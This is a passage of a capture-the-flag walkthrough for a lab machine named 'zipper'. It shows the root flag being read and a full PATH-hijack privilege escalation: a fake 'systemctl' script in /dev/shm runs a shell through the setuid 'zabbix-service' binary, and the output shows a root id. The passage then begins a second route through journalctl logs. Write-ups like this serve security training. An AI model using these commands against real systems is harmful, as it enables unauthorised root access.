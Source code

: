 

Now can grab root flag:



    root@zipper:/root# cat root.txt 
    a7c743d3...



Interestingly, this can be done directly from the Zabbix account, in
case I wanted to skip user and go right to root:



    zabbix@zipper:/home/zapper/utils$ echo -e '#!/bin/sh\n\n/bin/sh' > /dev/shm/systemctl 
    zabbix@zipper:/home/zapper/utils$ chmod +x /dev/shm/systemctl                         
    zabbix@zipper:/home/zapper/utils$ export OLD=$PATH                                    
    zabbix@zipper:/home/zapper/utils$ export PATH=/dev/shm                                
    zabbix@zipper:/home/zapper/utils$ ./zabbix-service                                    
    start or stop?: start
    # export PATH=$OLD
    # id
    uid=0(root) gid=0(root) groups=0(root),113(zabbix)



### Path 2 - purge-backups.sh

#### Enumeration

`journalctl` is a program that will query the contents of the `systemd`
(a service manager for Linux) journal. If I run it with the `-f` flag,
it will wait and display new entries as they are created. For example,
if I start `journalctl -f` and then run `./zabbix-service stop`, I see
the service stop:



    Feb 21 05:59:12 zipper systemd[1]: Stopping Zabbix Agent...
    Feb 21 05:59:12 zipper systemd[1]: Stopped Zabbix Agent.



Starting makes a log as well:



    Feb 21 06:00:30 zipper systemd[1]: Reloading.
    Feb 21 06:00:30 zipper systemd[1]: Started Zabbix Agent.
    Feb 21 06:00:30 zipper zabbix_agentd[20068]: Starting Zabbix Agent [Zipper]. Zabbix 3.0.12 (revision 73586).
    Feb 21 06:00:30 zipper zabbix_agentd[20068]: Press Ctrl+C to exit.



If I just let it run for a while, I'll see another service:

